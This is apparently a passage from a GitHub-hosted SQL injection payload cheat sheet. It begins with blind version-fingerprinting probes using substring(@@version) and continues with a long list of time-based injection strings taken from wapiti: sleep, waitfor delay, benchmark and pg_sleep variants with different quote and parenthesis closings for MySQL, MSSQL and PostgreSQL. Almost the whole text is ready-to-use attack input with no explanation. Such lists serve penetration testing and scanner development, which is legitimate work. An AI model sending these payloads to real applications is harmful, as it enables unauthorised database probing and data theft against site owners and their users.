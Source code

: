            and (select substring(@@version,1,1))='X'
           and (select substring(@@version,1,1))='M'
           and (select substring(@@version,2,1))='i'
           and (select substring(@@version,2,1))='y'
           and (select substring(@@version,3,1))='c'
           and (select substring(@@version,3,1))='S'
           and (select substring(@@version,3,1))='X'
      
  ## Generic Time Based SQL Injection Payloads

### from wapiti
          sleep(5)#
          1 or sleep(5)#
          " or sleep(5)#
          ' or sleep(5)#
          " or sleep(5)="
          ' or sleep(5)='
          1) or sleep(5)#
          ") or sleep(5)="
          ') or sleep(5)='
          1)) or sleep(5)#
          ")) or sleep(5)="
          ')) or sleep(5)='
          ;waitfor delay '0:0:5'--
          );waitfor delay '0:0:5'--
          ';waitfor delay '0:0:5'--
          ";waitfor delay '0:0:5'--
          ');waitfor delay '0:0:5'--
          ");waitfor delay '0:0:5'--
          ));waitfor delay '0:0:5'--
          '));waitfor delay '0:0:5'--
          "));waitfor delay '0:0:5'--
          benchmark(10000000,MD5(1))#
          1 or benchmark(10000000,MD5(1))#
          " or benchmark(10000000,MD5(1))#
          ' or benchmark(10000000,MD5(1))#
          1) or benchmark(10000000,MD5(1))#
          ") or benchmark(10000000,MD5(1))#
          ') or benchmark(10000000,MD5(1))#
          1)) or benchmark(10000000,MD5(1))#
          ")) or benchmark(10000000,MD5(1))#
          ')) or benchmark(10000000,MD5(1))#
          pg_sleep(5)--
          1 or pg_sleep(5)--
          " or pg_sleep(5)--
          ' or pg_sleep(5)--
          1) or pg_sleep(5)--
          ") or pg_sleep(5)--
          ') or pg_sleep(5)--
          1)) or pg_sleep(5)--
          ")) or pg_sleep(5)--
          ')) or pg_sleep(5)--
          AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
          AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
          AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
          SLEEP(5)#
          SLEEP(5)--
          SLEEP(5)="
          SLEEP(5)='
          or SLEEP(5)
          or SLEEP(5)#
